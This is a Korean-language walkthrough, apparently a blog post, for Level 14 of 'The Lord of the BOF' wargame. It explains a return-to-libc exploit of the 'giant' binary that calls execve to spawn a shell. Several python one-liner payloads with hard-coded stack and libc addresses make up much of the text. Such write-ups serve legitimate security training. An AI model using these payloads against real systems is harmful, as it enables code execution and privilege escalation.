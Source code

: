 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 14"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level14/1.jpg" | relative_url }}' alt='relative'>  

## 1) bugbear/new divide 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level14/2.png" | relative_url }}' alt='relative'>  

이번 문제도 RTL(Return to Library) 문제입니다.  

``` c
// giant.c
		...
		// gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }
		...
```

해당 코드 부분이 추가되었습니다.  
 
``` c
// 문자열 인자로 입력한 내용을 쉘에서 실행하여 실행 결과를 읽어와 fp에 저장
fp = popen("", "r")

// assassin 프로그램의 라이브러리 의존성을 확인하여 libc 문자를 포함하는 내용을 출력
// 다만, 해당 내용을 스페이스(' ')로 구분한 뒤, 4번째에 위치하는 값만 출력
"/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'"

// fp에 저장된 값을 buffer에 입력하고, buffer에 저장된 값을 lib_addr에 저장합니다.  
fgets(buffer, 255, fp);
sscanf(buffer, "(%x)", &lib_addr);
```

위의 코드를 쉘에서 수행해보면 프로그램이 실행시 사용하는 공유 라이브러리의 메모리 상의 주소를 얻어오는 과정입니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/3.png" | relative_url }}' alt='relative'>  


``` c
// 문자열 인자로 입력한 내용을 쉘에서 실행하여 실행 결과를 읽어와 fp에 저장
fp = popen("", "r")

// libc.so.6 라이브러리에 포함된 모든 함수명 중 __execve 문자를 포함하는 내용을 출력
// 다만, 해당 내용을 스페이스(' ')로 구분한 뒤, 1번째에 위치하는 값만 출력
"/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'"

// fp에 저장된 값을 buffer에 입력하고, buffer에 저장된 값을 execve_offset에 저장합니다.  
fgets(buffer, 255, fp);
sscanf(buffer, "%x", &execve_offset);
```

위의 코드를 쉘에서 수행해보면 libc.so.6 라이브러리 내에 execve 함수의 offset을 얻어오는 과정입니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/3.png" | relative_url }}' alt='relative'>  

메모리 상의 libc.so.6 공유 라이브러리 주소에 execve 함수의 offset을 더해 execve_addr에 저장합니다.  
이 주소와 argv\[1\]\[44\]부터 4 byte 길이의 값을 비교합니다.  
즉, RET에 입력될 주소 값이 메모리 상의 execve 함수 주소여야 합니다.  

## 2) execve 함수의 실행 인자  

``` bash
// #include <unistd.h>
int execve(const char *filename, char *const argv[], char *const envp[]);
```

execve 함수는 함수 실행을 위해 3개의 실행 인자를 입력받습니다.  
execve 함수로 쉘을 실행하기 위해서는 filename에 "/bin/sh" 문자열을, argv에는 "/bin/sh" 문자열 주소와 NULL을, envp에는 NULL을 입력해야 합니다.  

앞 문제와 동일하게 buffer부터 ret을 입력하기 전까지 NOP으로 채운 뒤, ret에는 execve 함수 주소를 넣고, 함수 실행 뒤 복귀할 주소를 입력한 뒤 실행 인자 3개를 차례대로 넣어주면 됩니다.  

## 3) 스택에 입력할 실행 인자 값 구하기  

<a href="#1">1. 첫번째 방법: buffer 배열 이용</a>  
<a href="#2">2. 두번째 방법: system 함수 사용</a>  
<a href="#3">3. 세번째 방법: 환경변수 사용</a>  
<a href="#4">4. 네번째 방법: 실행 인자 사용</a>  

4가지 방법 중 4번 방법으로 level14 문제를 풀겠습니다.  

<p><a id="4"></a></p>
4. giant 프로그램 실행시 두번째 인자로 "/bin/sh" 문자열을 입력하여 두번째 인자 주소가 저장된 주소를 execve 함수의 2번째 인자로 사용한다.  

### (1) 첫번째 인자  

앞 문제에서 "/bin/sh" 문자열의 위치를 구했습니다. (<a href="https://hsong2.github.io/lob/2021/07/04/The-Lord-of-the-BOF-Level-13.html#binsh">"/bin/sh" 문자열 위치 구하는 방법</a>)  

<img data-action="zoom" src='{{ "assets/lob/level14/5.png" | relative_url }}' alt='relative'>  
 
첫번째 인자인 "/bin/sh" 문자열의 위치는 0x400fbff9d 입니다.  

### (2) 두번째 인자  

두번째 인자인 argv에는 "/bin/sh\0"(=argv\[0\]) 문자열의 주소와 NULL(=argv\[1\])이 차례대로 저장된 주소를 입력해줘야 합니다.   

이를 위해 giant 프로그램을 시작할 때 2개의 실행 인자를 입력하는 데, 첫번째 실행 인자에는 공격 페이로드를 입력해주고 두번째 실행 인자에는 "/bin/sh" 문자열을 입력합니다.  
그 다음 argv에 giant 프로그램의 두번째 실행 인자의 주소가 저장된 주소를 입력합니다.  

### (3) 세번째 인자  

세번째 인자인 NULL을 어떻게 입력해줘야 할까요?  
접근할 수 있는 스택 주소 중 가장 아래에는 0x00000000 값이 있습니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/6.png" | relative_url }}' alt='relative'>  

NULL 값이 저장된 주소는 0xbffffffc 입니다. 

## 4) 공격 페이로드 만들기  

앞서 설명한 내용을 바탕으로 다음과 같이 공격 페이로드를 작성할 수 있습니다.  

``` bash
`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"AAAA"+"\xfc\xff\xff\xbf"'` `python -c 'print "/bin/sh"'`
```

\x48\x9d\x0a\x40는 execve의 주소이며, \xf9\xbf\x0f\x40는 "/bin/sh" 문자열의 주소입니다.  
giant 프로그램의 두번째 인자 주소가 저장된 위치를 알 수 없어 AAAA로 우선 입력합니다.  
그 다음 두번째 인자로 "/bin/sh" 문자열을 입력합니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/7.png" | relative_url }}' alt='relative'>  

0xbffffc6a 주소에 "/bin/sh" 문자열이 저장되어 있으며, 0xbffffb30에 argv\[2\]의 주소와 argv 주소가 더 이상 없음을 나타내는 NULL이 차례대로 저장되어 있습니다.  
따라서 AAAA 대신 0xbffffb30을 입력하면 됩니다.  

<hr> 

<img data-action="zoom" src='{{ "assets/lob/level14/8.png" | relative_url }}' alt='relative'>  

그런데 argc가 3이 아닌 4로 저장되어 있습니다.  
argv\[1\]의 내용을 살펴보니 '\x0a'이 입력되지 않고 공백(' ')으로 인식됩니다.  


아스키코드인 LF(new line)로 인식하는 문제를 해결하기 위해 쌍따옴표(")로 argv\[1\] 문자열을 감싸주면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/9.png" | relative_url }}' alt='relative'>  

``` bash
"`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"AAAA"+"\xfc\xff\xff\xbf"'`" `python -c 'print "/bin/sh"'`
```

\x0a를 LF로 인식하는 문제를 해결하니 argc의 값이 3 입니다.  
argv가 4일 때 구한 0xbffffb30 대신, AAAA에 0xbffffb2c(=\x2c\xfb\xff\xbf)를 입력하면 됩니다.  

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\x2c\xfb\xff\xbf"+"\xfc\xff\xff\xbf"'`" `python -c 'print "/bin/sh"'`
```

<img data-action="zoom" src='{{ "assets/lob/level14/10.png" | relative_url }}' alt='relative'>  

<hr>

<p><a id="1"></a></p>
1. buffer에 "/bin/sh" 문자열의 주소를 넣어 execve 함수의 2번째 인자로 사용한다.(?)  

<img data-action="zoom" src='{{ "assets/lob/level14/11.png" | relative_url }}' alt='relative'>  

``` bash
./giant "`python -c 'print "\xf9\xbf\x0f\x40"+"\x90"*40+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xfc\xfa\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xfc\xfa\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```

흠,,, 0xbffffafc에서만 가능한 이유를 모르겠다...
buffer에 "/bin/sh" 주소를 안 넣어도 0xbffffafc 값을 넣어주면 bash가 실행된다.  
현재 내가 갖고 있는 지식으로는 이에 대한 이유를 모르겠음  

<p><a id="2"></a></p>
2. execve 함수 인자에 exit를 넣어 execve 함수의 실행을 종료하고, 복귀 주소에 system 함수 주소를 입력하여 system 함수를 호출한다.  

execve 함수에 exit를 넣어 실행을 종료하고 system("/bin/sh")를 실행하는 방법입니다.  
RET 부분에 execve 함수의 주소를 넣고 복귀 주소로 system 함수의 주소를 입력합니다.  
그 다음 system 함수의 인자인 "/bin/sh" 문자열을 입력하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/12.png" | relative_url }}' alt='relative'>  

``` bash
./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"\xe0\x91\x03\x40"+"\xf9\xbf\x0f\x40"+"\xfc\xff\xff\xbf"'`"
```

<p><a id="3"></a></p>
3. 환경변수에 "/bin/sh" 문자열을 저장하여 해당 문자열이 저장된 환경변수의 주소를 execve 함수의 2번째 인자로 사용한다.  

<img data-action="zoom" src='{{ "assets/lob/level14/14.png" | relative_url }}' alt='relative'>  

환경변수에 "/bin/sh" 문자열을 저장한 뒤, "/bin/sh" 문자열을 저장한 환경변수의 주소를 얻어옵니다.  
해당 환경변수의 주소을 giant 프로그램의 심볼릭 링크 파일 이름으로 생성합니다.  

프로그램 파일 명은 스택의 제일 높은 주소에 저장되어 있으며 파일명의 끝에는 NULL로 채워져 있습니다.  
예시로 심볼릭 링크 파일 명과 동일한 길이의 test 프로그램으로 확인해보겠습니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/13.png" | relative_url }}' alt='relative'>  

0xbffffff7 주소에 "test\0"과 NULL이 차례대로 입력되어 있습니다.  
0xbffffff7 주소를 execve 함수의 2번째 인자로 입력하면 됩니다.  

<img data-action="zoom" src='{{ "assets/lob/level14/15.png" | relative_url }}' alt='relative'>  

``` bash
./`python -c 'print "\xc3\xfe\xff\xbf"'` "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xf7\xff\xff\xbf"+"\xfc\xff\xff\xbf"'`"
```
